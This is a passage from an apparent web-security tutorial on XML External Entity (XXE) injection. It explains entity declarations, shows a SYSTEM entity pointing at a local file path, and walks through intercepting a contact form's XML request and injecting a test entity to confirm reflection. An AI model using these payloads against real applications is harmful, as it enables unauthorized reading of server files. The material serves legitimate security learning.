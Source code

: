 Once we define an entity, it can be referenced in an XML document between an ampersand `&` and a semi-colon `;` (e.g. `&company;`). Whenever an entity is referenced, it will be replaced with its value by the XML parser. Most interestingly, however, we can reference External XML Entities with the **SYSTEM** keyword, which is followed by the external entity's path, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

>  We may also use the **PUBLIC** keyword instead of **SYSTEM** for loading external resources, which is used with publicly declared entities and standards, such as a language code 
{: .prompt-tip}

## Local File Disclosure 

When a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities. The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. For example a **Contact Form**. Take the following example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>Zero</name>
  <tel>1</tel>
  <email>zero@pm.me</email>
  <message>
    Pwned!
  </message>
</root>
```

Intercept the request and check it. If we see XML format we can start testing. Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input. In that case, we may be able to exploit this XML form to read local files. Take for example that one of the field is being printed after sending it (for example our email after the Contact Form). Also check the source code, some values can be displaying there.

Start creating a new Entity, for example `<!ENTITY test "This is a test">`.

> If in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the **DOCTYPE** was already declared in the XML request, we would just add the **ENTITY** element to it.
{: .prompt-tip}

For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY test "This is a test">
]>
<root>
  <name>Zero</name>
  <tel>1</tel>
  <email>&test;</email>
  <message>
    Pwned!
  </message>
</root>
```

